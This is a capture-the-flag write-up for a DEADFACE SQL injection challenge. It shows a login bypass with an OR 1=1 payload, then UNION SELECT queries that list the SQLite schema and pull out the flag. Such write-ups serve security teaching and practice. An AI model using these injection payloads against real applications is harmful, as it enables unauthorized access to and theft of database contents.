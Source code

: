 > [!abstract] Challenge Description
> > @3.14ro
> ## 100
> DEADFACE is taunting us! We found their link! There was a breach!. How deep, and how for heaven’s sakes did they got in, we don’t know! Can you locate the flag?
> 
> Submit the flag as `deadface{text}`.
> 
> [https://deadface-db01.chals.io](https://deadface-db01.chals.io/)

Brings us to simple login page.
Executing `admin' OR 1=1 --` gets us to the admin page.

From here, we can search users for specific things.
> [!info] Admin Dashboard
> ![[SQLite007 Admin Dashboard.png]]

Again, executing `' OR 1=1--` will give us all the results for that specific topic.
No results. Perhaps we can infiltrate the database.

Using `' UNION SELECT sql,NULL,NULL,NULL,NULL FROM sqlite_master--` (since its sqlite), shows us the tables.

```SQLite
None, None, None, None, None  
CREATE TABLE activity_logs ( log_id INTEGER PRIMARY KEY AUTOINCREMENT, user_id TEXT, action TEXT, timestamp TEXT, details TEXT ), None, None, None, None  
CREATE TABLE api_keys ( key_id TEXT PRIMARY KEY, user_id TEXT, api_key TEXT, scopes TEXT, created_at TEXT, revoked INTEGER DEFAULT 0 ), None, None, None, None  
CREATE TABLE general (flag TEXT), None, None, None, None  
CREATE TABLE profiles ( user_id TEXT PRIMARY KEY, username TEXT, full_name TEXT, email TEXT, bio TEXT, created_at TEXT ), None, None, None, None  
CREATE TABLE sessions ( session_id TEXT PRIMARY KEY, user_id TEXT, created_at TEXT, expires_at TEXT, client_ip TEXT, user_agent TEXT ), None, None, None, None  
CREATE TABLE sqlite_sequence(name,seq), None, None, None, None
```

Hence the final command to get the flag is 
`' UNION SELECT flag,NULL,NULL,NULL,NULL FROM general--`

---
> [!success] Flag: `deadface{you_found_the_sqli_01_flag!}`
